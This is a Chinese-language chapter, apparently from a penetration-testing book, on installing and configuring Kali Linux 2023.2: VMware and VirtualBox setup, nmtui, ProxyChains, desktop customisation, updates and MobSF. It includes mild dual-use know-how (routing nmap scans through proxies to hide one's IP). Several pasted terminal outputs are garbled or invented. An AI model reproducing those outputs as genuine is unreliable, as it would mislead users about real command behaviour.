

图 2.1: `Kali Linux` 关键特性

以下是 `Kali Linux` 的一些关键特性：

- 预装了大量的安全工具，涵盖了网络扫描、密码破解和数字取证分析。
- 灵活的界面和多功能的布局，使用户能够根据其确切需求对操作系统进行个性化。
- 强大的文档和支持资源，包括用户指南、论坛和活跃的 `Kali Linux` 社区。
- 定期的更新和改进，确保用户可以使用最新、最高效的安全方法和工具。
- 现场启动功能，允许用户从 `DVD` 或 `USB` 驱动器运行 `Kali Linux`，而无需在设备上进行安装。

> `Kali Linux` 是一种著名的 `Linux` 发行版，因其在网络安全领域、追求伦理黑客和渗透测试中的关键作用而被广泛认可。尽管它的传统部署偏向于攻性安全，但 `Kali Purple` 重新定义了平台的范围。它无缝集成了多种防御工具和资源，使你不仅能够主动检测和对抗威胁，还能对威胁进行响应和缓解。

## 建立虚拟化格局

虚拟化是一种将一台物理机器划分为若干台虚拟机的方法，这些虚拟机能够运行独立的操作系统和应用程序。这种方法允许不同的操作系统和应用程序在一个物理设备上运行，提高了效率并降低了硬件成本。虚拟化实践适用于各种场景，包括云计算、服务器整合、构建测试和开发环境。为虚拟化设计的软件（如 `VMware` 和 `Oracle VirtualBox`）起在中心主机上创建和管理这些虚拟机的作用。

## 它在 VAPT 中有什么用

虚拟化在漏洞评估和渗透测试 (`VAPT`) 中发挥着关键作用，它让安全专家能够专门为测试建立和管理大量的虚拟环境。通过虚拟化，`VAPT` 专家可以在单个物理主机上构建多个虚拟机，并为其定制独特的操作系统、应用程序和网络设置。

这种技术还简化了隔离测试环境的构建，这对于确保测试过程不会干扰目标系统的运行至关重要。此外，虚拟化简化了虚拟环境快照的创建，使 `VAPT` 专业人员高效地保存并恢复到特定状态。这一特性对于重复测试或与团队成员共享测试环境非常有价值。

> 注意：虚拟化是 `VAPT` 专家备受推崇的技术，赋予他们彻底且充分审查各种系统和环境的能力。

## 部署 Kali Linux 2023.2

你可以使用 `ISO` 镜像或虚拟机在 `VMware` 中设置 `Kali Linux`。每种方法都有其优缺点，你的选择取决于你的以及以及对 `Kali Linux` 的熟悉程度。有关每种方法优缺点的对比，请参考表 2.1：

```
| 序号 | 维度 | ISO 镜像 | 虚拟机镜像 |
|---|---|---|---|
| 01 | 安装易用性 | 安装稍显复杂，但提供了更多自定义选项 | 提供快速简便的设置，无需进行自定义 |
| 02 | 个性化 | 允许你自定义安装选项，如磁盘分区、语言和软件包 | 与 ISO 方法相比，自定义选项有限，可能不适合有特定需求的人 |
| 03 | 推荐建议 | 推荐想要学习安装过程的用户 | 别适用于已经熟悉 Kali Linux 并想要快速上手的用户 |
```

### 表 2.1: Kali Linux 使用 ISO 安装方法与虚拟机安装方法的优缺点对比

对于使用 `ISO` 方法安装 `Kali Linux`，首先从官方网站获取 `ISO` 镜像。然后，在 `VMware` 中生成一个新的虚拟机，选择 `ISO` 镜像作为安装介质。按照屏幕提示完成安装。该方法在安装期间提供了完全控制权，并允许自定义设置选项。

在本节中，我们将引导你通过虚拟机镜像在 `VMware Workstation` 或 `VirtualBox` 上安装 `Kali Linux`。让我们直接进入安装步骤。

## 在 VMware Workstation 上安装 Kali Linux

要在 `VMware Workstation` 上安装 `Kali Linux` 虚拟机镜像，你需要执行以下步骤：


### 安装步骤

1. 如图 2.2 所示，从网站下载最新版本的 `Kali Linux` 虚拟机镜像：

   虚拟机下载 URL：`https://www.kali.org/get-kali/#kali-virtual-machines`

   

   图 2.2: 下载 `Kali Linux` 虚拟机镜像

2. 在你的设备上安装并打开 `VMware Workstation`，如图 2.3 所示：

   

3. 点击 `VMware Workstation` 欢迎界面上的“打开虚拟机”。

4. 接下来，选择你在步骤 1 中获取的 `Kali Linux` 虚拟机镜像文件，点击“打开”，如图 2.4 所示：

   

   图 2.4: 选择 `Kali Linux` 虚拟机镜像文件

5. 仔细按照屏幕指令完成虚拟机的设置。这包括指定分配的内存和存储空间，以及配置虚拟机，如图 2.5 所示：

   

   图 2.5: 虚拟机设置

6. 启动虚拟机并按照屏幕指令完成 `Kali Linux` 安装，如图 2.6 所示：

   

7. 使用默认凭据登录：用户名 – `kali`，密码 – `kali`，如图 2.7 所示：

   

   > 注意：我们的建议专门选择基于 `ISO` 的安装，因为它提供了更大的自定义空间。然而，虚拟机镜像也能很好地满足渗透测试者的需求。

## 在 VirtualBox 上安装 Kali Linux

在 `VirtualBox` 上安装虚拟机镜像的方法是遵循以下步骤：

1. 首先，需要在电脑上下载并安装 `VirtualBox`，如图 2.8 所示：

   

2. 接下来，如图 2.9 所示下载虚拟机镜像：

   虚拟机下载 URL：`https://www.kali.org/get-kali/#kali-virtual-machines`

   

   图 2.9: 下载 `Kali` 虚拟机镜像

3. 打开 `VirtualBox` 并点击“添加”按钮将虚拟机镜像导入 `VirtualBox`，如图 2.10 所示：

   

   **欢迎使用 VirtualBox**

   `VirtualBox` 允许你管理全局列表以及计算机上的所有虚拟机。可以使用工具栏导入、添加和创建新虚拟机。

   你可以按 `F1` 键获取帮助，或访问 `https://www.virtualbox.org` 获取更多信息和最新动态。

4. 镜像完成后，你需要配置虚拟机。这包括设置虚拟机使用的内存和 `CPU` 资源，以及配置图 2.11 所示的网络设置：

   

   图 2.11: 配置网络设置

5. 现在，你可以点击启动按钮启动它。这将启动虚拟机并加载 `Kali Linux` 操作系统。

6. 使用默认凭据登录：用户名 – `kali`，密码 – `kali`，如图 2.12 所示。

## 配置网络服务

在 `Kali Linux 2023.2` 中配置网络设置，请使用 `nmtui` 命令行工具，该工具提供了一个简单的文本界面，专门用于轻松地设置网络连接。

要打开 `nmtui` 工具，请运行命令 `sudo nmtui`，如图 2.13 所示：

```bash
File Actions Edit View Help
(ummeedel@kali) ~[~/Desktop]
$ sudo nmtui
```

图 2.13: 运行命令 `sudo nmtui`

要配置新的网络连接，可以按照以下步骤操作：

1. 从主菜单中选择“Edit a network connection”（编辑网络连接），如图 2.14 所示：

2. 选择您想要编辑的网络连接并按回车键，如图 2.15 所示：

3. 使用方向键导航到不同的选项并按回车键进行编辑。

4. 使用 `Tab` 键在不同选项之间切换，使用空格键启用或禁用它们。

5. 将连接设置为使用手动配置，并为 `Kali Linux` 机器分配静态 `IP` 地址，如图 2.16 所示：

   图 2.16: 编辑连接

6. 按 `OK` 保存您的更改。

   > 注意：`nmtui` 工具进一步增强了切换网络连接开关的能力，并提供了查看和修改系统主机名及 `DNS` 配置的。

## 启用 ProxyChains

使用 `ProxyChains` 可以增强您的隐私保护并绕过防火墙等网络限制。虽然 `Kali Linux 2023.2` 已经包含了 `ProxyChains`，但掌握其安装和设置仍然很有帮助，以确保为其他平台或自定义调整做好准备。了解 `ProxyChains` 的工作原理并掌握其设置可以提升您参与和安全网络交互的能力。

要在 `Kali Linux 2023.2` 中设置 `ProxyChains`，需要执行以下步骤：

1. 打开终端窗口并运行命令 `sudo apt-get install proxychains` 安装 `ProxyChains` 包，如图 2.17 所示：

   ```bash
   (ummedmeel@kali)-~/Desktop
   $ sudo apt-get install proxychains
   [sudo] password for ummedmeel: |
   ```

   图 2.17: 运行命令安装 `ProxyChains`

2. 使用文本编辑器打开 `ProxyChains` 配置文件。配置文件位于 `/etc/proxchains.conf`。运行命令 `sudo nano /etc/proxchains.conf`，如图 2.18 所示：

   ```bash
   (ummedmeel@kali)-~/Desktop
   $ sudo nano /etc/proxchains.conf
   ```

   图 2.18: 运行命令打开 `ProxyChains` 配置文件

3. 滚动到文件末尾并添加您想要使用的代理服务器，每行一个。每行应遵循以下格式：

   `<proxy type> <proxy host> <port>`

4. 例如，如果您想在端口 `7080` 上使用 `192.168.159.150` 的 `socks5` 代理，将向文件中添加以下内容，如图 2.19 所示：

   `socks5 192.168.159.150 7080`

   ```bash
   #/proxychains4.conf
   # This is the main proxy agent
   # default 1.1.1.1 1080

   # Me what proxy i want to connect to 1.1.1.1 actually connect to 1.1.1.2 on port 443
   # dummy 1.1.1.1:1112

   # Always, instead of connecting to 1.1.1.1, connect to 1.1.1.2
   # dummy 1.1.1.1:1112

   # Proxy list (user proxy)
   # (values separated by 'tab' or ' ')
   # (only numeric ipv4 ipv6 addresses are valid)

   # Examples:
   # socks5 192.168.157.88 1000 lancer secret
   # socks5 192.168.159.150 8080 just videos
   # http 192.168.159.150 7080

   # proxy type: http, socks, socks5
   # (each line is safely forwarded to the proxy without modification.
   # (auth types supported: "http" "user/pass-socks")

   [ProxyList]
   # add proxy here ...n
   # default set to "to"
   socks5 192.168.157.88 1000
   socks5 192.168.159.150 7080
   ```

   图 2.19: `ProxyChains` 配置文件

5. 保存配置文件并退出文本编辑器。

### ProxyChains 的用例

要配合特定命令使用 `proxychains`，可以使用以下语法：

```bash
proxychains <command>
```

例如，要通过代理服务器运行 `Nmap` 网络扫描工具，将使用命令 `proxychains nmap 192.168.159.120`，如图 2.20 所示：

```bash
(ummeedel@kali)-~[/Desktop]
$ proxychains nmap 192.168.159.120
```

图 2.20: 使用 `ProxyChains` `Nmap`

这将通过配置文件中指定的代理服务器运行 `Nmap`，允许您隐藏 `IP` 地址并保护您的匿名性。

> 注意：配合 `ProxyChains` 使用的代理选择取决于用户的独特需求。

## 个性化 Kali Linux

将 `Kali Linux 2023.2` 定义符合您的喜好涉及多种选项，例如更改桌面外观、添加新软件和调整系统配置。以下是您可以个性化 `Linux` 体验的几个实例：

### 更改桌面环境

默认情况下，`Kali Linux` 使用 `Xfce` 桌面。然而，您可以选择安装并切换到 `KDE`、`Gnome` 或 `Cinnamon` 等其他桌面环境，以获得符合您口味的新颖视觉和操作风格。

要安装 `Kali Linux` `xfce`，打开终端会话输入命令 `sudo apt update && sudo apt install -y kali-desktop-xfce`，如图 2.21 所示：

```bash
ummedmeel@kali:~[/Desktop]
$ sudo apt install -y kali-desktop-xfce
```

图 2.21: 在 `Kali Linux` 中安装 `Xfce` 环境

将 `xfce` 设置为 `Kali Linux` 的默认桌面环境，打开终端并运行命令 `sudo update-alternatives --config session-manager`，如图 2.22 所示：

```bash
ummedmeel@kali:~[/Desktop]
$ sudo update-alternatives --config session-manager
There are 2 choices for the alternative session-manager.

  Selection    Path               Priority   Status
************************************************            
* 0            /usr/bin/startxfce4      50        auto
  1            /usr/bin/startxfce4      50        manual
  2            /usr/bin/xfce4-session  40        manual

Press <enter> to keep the current choice[*], or type selection:
```

图 2.22: `Kali Linux` 中的桌面环境

### 安装额外应用程序

`Kali Linux` 包含了许多现成的安全工具，但您也可以添加应用程序，这当您打算在安全评估之外使用 `Kali Linux` 时（例如 `Web` 开发）有用。

### 修改系统设置

在 `Kali Linux` 中，您可以访问不同的面板来个性化系统的各个部分。您可以调整桌面背景、系统主题甚至网络设置，如图 2.23 所示：

### 更改登录界面

可以使用 `lightdm-gtk-greeter` 工具来定制登录界面外观，包括背景图像、字体和标志。运行命令 `sudo lightdm-gtk-greeter`，如图 2.24 所示：

图 2.23: 修改系统设置

> 在进行任何自定义之前，进行研究以确保它们对于您的系统是安全的。这一预防措施有助于避免由不合适或不支持的修改引起的问题。

## 刷新 Kali Linux

要更新 `Kali Linux 2023.2`，可以使用 `apt-get` 命令，它是 `Kali Linux` 所属的 `Debian/Linux` 发行版的包管理器。

要更新 `Kali Linux`，需要执行以下步骤：

1. 打开终端并运行命令 `apt-get update` 更新 `Kali Linux`，如图 2.25 所示：

   ```bash
   $ sudo apt-get update

   Get:1: http://kali.download/kali-rolling/InRelease [4.2 KB]

   Get:2: http://kali.download/kali-rolling/main amd64 Packages [19.6 MB]

   Get:3: http://kali.download/kali-rolling/main amd64 Contents [45.9 MB]

   Get:4: http://kali.download/kali-rolling/contrib amd64 Contents (deb) [115 KB]

   Get:5: http://kali.download/kali-rolling/contrib amd64 Packages (deb) [220 KB]

   Get:6: http://kali.download/kali-rolling/main-free amd64 Contents (deb) [218 KB]

   Get:7: http://kali.download/kali-rolling/non-free amd64 Contents (deb) [908 KB]
   ```

   图 2.25: 更新 `Kali Linux`

2. 包索引更新后，运行命令 `apt-get upgrade` 将所有已安装软件包升级到最新版本，如图 2.26 所示：

   ```bash
   $ sudo apt-get upgrade

   Reading package lists... Done

   Building dependency tree... Done

   Calculating... Done

   The following packages will be removed and are no longer required:

   liborg2:amd64 libwire-pulse-python3-cryptography python3-flask-sel-python3-classes-dev-connection-utils

   The following packages have been upgraded:
   ```


`libasound2-linux--6-build-common-15-liberty-fortions-libation-lib12-gcc-12-base-gcc-12-1-2-v2.91-1.2--4.0-libglib2.0-0*24.1-2+deb11 libgtk-3-0-common*24.1-2+deb11 libgtk-3-0-dev*24.1-2+deb11 libgtk-3-0-4*24.1-2+deb11 libgtk-3-0-modules*24.1-2+deb11 libnss3-6*24.1-2+deb11 libnss3-dev*24.1-2+deb11 libnss3-data*24.1-2+deb11 libnss3-dev*24.1-2+deb11 libnss3-extra*24.1-2+deb11 libnss3-binaries*24.1-2+deb11 lib-1.0*24.1-2+deb11 lib-1.0-dev*24.1-2+deb11 lib-1.0--*24.1-2+deb111n--1.0-binaries*24.1-2+deb11 libncurses-1.0*24.1-2+deb11 libncurses-1.0-dev*24.1-2+deb11 libncurses-1.0-binaries*24.1-2+deb11 libncurses-5*24.1-2+deb11 libncurses-5-dev*24.1-2+deb11 libncurses-5-binaries*24.1-2+deb11 libncurses-6*24.1-2+deb11 libncurses-6-dev*24.1-2+deb11 libncurses-6-binaries*24.1-2+deb11 libncurses-7*24.1-2+deb11 libncurses-7-dev*24.1-2+deb11 libncurses-7-binaries*24.1-2+deb11 libnss3-6*24.1-2+deb11 libnss3-dev*24.1-2+deb11 libnss3-data*24.1-2+deb11 libnss3-dev*24.1-2+deb11 libnss3-extra*24.1-2+deb11 libnss3-binaries*24.1-2+deb11 lib-1.0*24.1-2+deb11 lib-1.0-dev*24.1-2+deb11 lib-1.0--*24.1-2+deb111n--1.0-binaries*24.1-2+deb11 libncurses-1.0*24.1-2+deb11 libncurses-1.0-dev*24.1-2+deb11 libncurses-1.0-binaries*24.1-2+deb11 libncurses-5*24.1-2+deb11 libncurses-5-dev*24.1-2+deb11 libncurses-5-binaries*24.1-2+deb11 libncurses-6*24.1-2+deb11 libncurses-6-dev*24.1-2+deb11 libncurses-6-binaries*24.1-2+deb11 libncurses-7*24.1-2+deb11 libncurses-7-dev*24.1-2+deb11 libncurses-7-binaries*24.1-2+deb11`

图 2.26: Upgrade the Kali Linux

3. 在软件包升级完成后，你可以运行命令 `sudo apt-get autoremove` 来移除任何不再需要的过时软件包，如图 2.27 所示。

这将清理你的系统并释放磁盘空间。请参考图 2.27：

```
[medel@kali:~/Desktop]
$ sudo apt-get autoremove
Reading lists: Done
Building dependency tree: Done
Reading package lists: Done
The following packages will be REMOVED:
26 upgraded, 0 newly installed, 4 to remove, 0 not upgraded
python3-deprecursion python3-test3 python3-cryptography37 python3-flask-security39 python3-jaraco classes3-py3
After this operation, 8 KB disk space will be freed.
Do you want to continue? [Y/n]
(Reading database: 39878 files and directories currently installed)
Removing libgcc1(9.4.0-1ubuntu~~)
Removing libstdc++6(9.4.0-1ubuntu2)
Removing pipewire-alsa(0.3.20-1ubuntu1)
Removing python3-cryptography(0.3.6-0ubuntu2)
Removing python3-jaraco-classes(3.2.1-1)
Removing python3-trivial(3.5.3-1)
Removing python3-deprecursion-shim(0.1.8-post8-3)
Removing python3-test3(1.6.7-1)
Processing triggers for linc(0.3.27)
```

图 2.27: 清理你的系统

4. 最后，你可以运行命令 `sudo apt-get clean` 来清理软件包缓存，这将移除任何不再需要的下载软件包文件，如图 2.28 所示：

```
(medel@kali)-~/Desktop
$ sudo apt-get clean
```

图 2.28: 清理软件包缓存的命令

## 启用第三方 VAPT 工具

在追求无懈可击的安全时，有两个强大的工具可以对移动安全安全框架 (`MobSF`) 和 `Trivy` 进行更深入的观察。这些多功能安全解决方案在评估和加强你的数字防御方面起着至关重要的作用。在接下来的章节中，我们将探讨如何利用 `MobSF` 和 `Trivy` 的能力。

让我们看看设置这些第三方 VAPT 工具：

## MobSF 框架

`MobSF` 是一个用于移动应用程序测试的完整工具包，支持 Android 和 iOS。它是免费开源的，并配备了分析、反编译和漏洞扫描等工具。使用 `MobSF` 有助于在使用黑客利用之前发现并修复漏洞，减少数据泄露的可能性。

要在 Kali Linux 上运行 `MobSF`，请遵循以下步骤：

1. 运行命令 `sudo apt-get update` 更新你的 Kali Linux 软件包列表。
2. 运行命令 `git clone https://github.com/MobSF/Mobile-Security-Framework --depth=1` 下载 `MobSF` 软件包，如图 2.29 所示。

```
File
$ (medel@kali): ~/desktop
$ git clone https://github.com/MobSF/Mobile-Security-Framework --depth=1
Cloning into 'Mobile-Security-Framework'...
remote: Enumerating objects: 512, done.
remote: Counting objects: 100% (512/512), done.
remote: Compressing objects: 100% (485/485), done.
remote: Total count: 512 (delta 39), used 332 (delta 19)
Receiving objects: 100% (512/512), 97.71 MiB | 483.00 KiB/s, done.
Resolving deltas: 100% (39/39), done.
Updating files: 100% (485/485), done.
```

图 2.29: 通过命令下载 `MobSF` 框架

3. 运行命令 `sudo apt install python3-venv python3-pip build-essential libffi-dev libssl-dev readline-dev sqlite3-dev libjpeg62-dev zlib1-dev` 安装运行 `MobSF` 需要的依赖项，如图 2.30 所示。

```
cd ~/Desktop
sudo apt install python3-venv python3-pip build-essential libffi-dev libssl-dev readline-dev sqlite3-dev libjpeg62-dev zlib1-dev
Done
Reading lists...
Building dependencies...
Reading information...
python3 is already the newest version
build-essential is already the latest version
libffi-dev is already the latest version
libssl-dev is already the newest
The following additional packages were installed:
python3-venv
The following NEW packages will be installed:
0 upgraded, 1 installed, 0 to remove and 0 not used
Do you want to continue? [Y/n]
Get: 1 http://archive.ubuntu.com/ubuntu focal/main/amd64/libjpeg62-turbo_2.0.9-2_amd64 [274 KB]
Get: 2 http://archive.ubuntu.com/ubuntu focal/main/amd64/readline-dev_8.2-1-ubuntu2_amd64 [150 KB]
Get: 3 http://archive.ubuntu.com/ubuntu focal/main/amd64/sqlite3-dev_3.31.1-0_amd64 [96 KB]
Get: 4 http://archive.ubuntu.com/ubuntu focal/main/amd64/libffi-dev_3.3.9-3ubuntu0_amd64 [118 KB]
Get: 5 http://archive.ubuntu.com/ubuntu focal/main/amd64/python3-venv_3.8.10-0ubuntu2_amd64 [18 MB]
Get: 6 http://archive.ubuntu.com/ubuntu focal/main/amd64/python3-pip_20.0.6-2ubuntu1_amd64 [169 KB]
Setting up packages...
Selecting previously selected package
Reading dependencies...
Preparing to unpack ...libjpeg62-turbo_2.0.9-2_amd64...
Unpacking libjpeg62-turbo (2.0.9-2)...
Preparing to unpack ...libreadline-dev_8.2-1-ubuntu2_amd64...
Unpacking libreadline-dev (8.2-1ubuntu2)...
Processing triggers for zlib1g (1.2.1)
```

图 2.30: 安装依赖项

4. 运行命令 `sudo ./setup.sh` 安装 `MobSF`，如图 2.31 所示。

```
cd ~/Desktop/Mobile-Security-Framework-MobSF
sudo -m venv venv
source venv/bin/activate
pip install -r requirements.txt
Installing Python 3.8
Installing Pip
Installing wheel
Collecting packages
Downloading pip-20.0.2-py3-none-any (2 MB)
Using cached pip-20.0.2-py3-none-any
Installing packages: pip-20.0.2
Successfully installed: pip-20.0.2
Requirement>=22.3 is already satisfied in /usr/local/python3.8/site-packages (22.3)
Collecting packages
Downloading mobf-22.3.1-py3-none-any (2.7 MB)
Using cached mobf-22.3.1-py3-none-any
Installing packages: mobf-22.3.1
Successfully installed: mobf-22.3.1
Installing wheels
Successfully installed: mobf-22.3.1
Collecting metadata
```

图 2.31: 安装 `MobSF`

5. 运行命令 `sudo ./run.sh` 启动 `MobSF`，如图 2.32 所示。

```
$ medel@kali:~/Mobile-Security-Framework-MobSF
$ sudo ./run.sh
Starting gunicorn 20.1.0
Listening at: http://0.0.0.0:8000
Using worker: thread
Booting worker with id: ...
Mobile Security Framework v3.6.3
REST API Key: ...3d4167e5bc10d8b3495e2276f319c412ae59
Initializing environment
Platform: Linux-6.0.0-3-amd64-x864
Checking for updates...
No updates available.
```

6. 打开浏览器访问 `http://0.0.0.0:8000` 访问 `MobSF` 界面，图 2.33 所示。

图 2.33: MobSF 界面

你也可以参考 MobSF 官方文档以获取更详细的说明：`https://github.com/MobSF/Mobile-Security-Framework/wiki/Installation`

`MobSF` 赋能组织对移动应用程序的安全防护。

要在 Kali Linux 上运行 `MobSF`，请遵循以下步骤：

1. 运行命令 `sudo apt-get update` 更新你的 Kali Linux 软件包列表，如图 2.34 所示：

```
$ (medel@kali): ~/desktop
$ sudo apt-get update
```

图 2.34: 安装 Docker

